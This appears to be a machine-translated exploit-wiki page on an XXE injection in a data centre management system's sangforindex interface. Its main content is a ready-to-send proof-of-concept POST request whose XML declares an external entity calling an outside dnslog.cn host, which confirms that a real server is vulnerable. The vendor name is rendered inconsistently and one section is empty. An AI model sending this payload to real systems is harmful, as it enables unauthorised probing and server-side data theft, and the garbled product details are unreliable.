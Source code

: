 #Shenxinshui DC Data Center Management System sangforindex XML Entity Injection Vulnerability

## Vulnerability Description

Deepin Service DC Data Center Management System sangforindex interface has an XML entity injection vulnerability, and an attacker can send a specific request packet to cause XML entity injection.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Shenxinshui DC Data Center Management System </span>

## Network surveying and mapping



## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1692061412640-89b0f89d-f4eb-4cec-8df7-42a0c36fe233.png)

Verify POC

```plain
POST /src/sangforindex HTTP/1.1
Host: 
Content-Type: text/xml

<?xml version="1.0" encoding="utf-8" ?>
<!DOCTYPE root [
    <!ENTITY rootas SYSTEM "http://xgsg1k.dnslog.cn">
]>
<xxx>
&rootas;
</xxx>
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1692061553187-836f8383-a0e4-419d-b6eb-a001f62a92d5.png)